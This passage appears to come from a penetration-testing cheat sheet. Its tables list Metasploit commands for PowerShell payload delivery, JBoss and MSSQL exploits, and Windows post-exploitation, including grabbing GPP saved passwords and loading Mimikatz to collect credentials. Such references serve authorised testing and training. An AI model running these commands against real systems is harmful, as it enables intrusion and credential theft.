 </table>
<h3>Metasploit Powershell Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use exploit/multi/script/web_delivery</td>
<td>Metasploit powershell payload delivery module</td>
</tr>
<tr>
<td>post/windows/manage/powershell/exec_powershell</td>
<td>Metasploit upload and run powershell script through a session</td>
</tr>
<tr>
<td>use exploit/multi/http/jboss_maindeployer</td>
<td>Metasploit JBOSS deploy</td>
</tr>
<tr>
<td>use exploit/windows/mssql/mssql_payload</td>
<td>Metasploit MSSQL payload</td>
</tr>
</tbody>
</table>
<h3>Post Exploit Windows Metasploit Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>run post/windows/gather/win_privs</td>
<td>Metasploit show privileges of current user</td>
</tr>
<tr>
<td>use post/windows/gather/credentials/gpp</td>
<td>Metasploit grab GPP saved passwords</td>
</tr>
<tr>
<td>load mimikatz -&gt; wdigest</td>
<td>Metasplit load Mimikatz</td>
</tr>
<tr>
<td>run post/windows/gather/local_admin_search_enum</td>
<td>Idenitfy other machines that the supplied domain user has administrative access to</td>
</tr>
</tbody>
</table>
<h2>Networking</h2>
<h3>TTL Fingerprinting</h3>
<table>
<thead>
<tr>
<th>Operating System</th>
<th>TTL Size</th>
</tr>
</thead>